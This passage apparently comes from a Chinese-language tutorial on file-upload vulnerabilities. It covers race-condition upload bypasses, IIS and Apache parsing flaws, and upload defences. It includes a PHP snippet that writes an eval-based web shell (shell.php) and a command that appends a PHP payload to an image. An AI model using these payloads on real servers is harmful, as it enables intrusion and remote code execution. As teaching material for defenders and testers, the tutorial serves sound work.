     # 方法2：  
    cat image.jpg payload.php > image_payload.jpg  
    ```
## 2.5 条件竞争绕过  
服务器中可能会有先将文件保存到指定位置，然后再判断文件是否合法，如果不合法则删除。这种情况可以用多线程，利用上述提到的方法，不断的去上传、访问文件。在服务器完成删除之前，已经访问到了上传的文件，即可完成绕过。  
```PHP
<?php  
  fputs(fopen('shell.php', 'w'),'<? @eval($_POST[1])?>');  
?>  
```
只要可以成功访问到`payload.php`，就可以创建一个名为`shell.php`的文件，并写入`<? @eval($_POST[1])?>`。  
可以通过burpsuite不断的上传、访问。直到服务器内部存在一个不会被删除掉的恶意文件。  

# 3. 解析漏洞  
---
## 3.1 IIS解析漏洞  
### 3.1.1 目录解析漏洞  
形式：`www.xxx.com/xxx.asp/xxx.jpg`  
若服务器中存在`.asp`结尾的文件夹，服务器会将该文件夹中的所有文件解析为asp文件。  

### 3.1.2 文件解析漏洞  
形式：`www.xxx.com/xxx.asp;.jpg`  
服务器默认不解析分号`;`后面的内容，所以`xxx.asp;.jpg`会被解析为asp文件。  

## 3.2 Apache解析漏洞  
Apache解析文件的规则是从右向左开始判断解析，如果后缀名不可识别，就向左判断。  

# 4. 文件上传的防御  
---
1. 上传的目录设置为**不可执行**。只要无法解析该目录下的文件，即使攻击者上传了脚本文件，服务器本身也不会收到影响。  
2. 对于文件后缀的判断使用**白名单**的方式。  
3. 限制上传的文件大小。  
4. 对文件服务器和 web 服务器进行分离。上传的文件单独存放到其他的服务器中。  
5. 不需要返回文件路径的情况下，要**随机改写文件名**。  
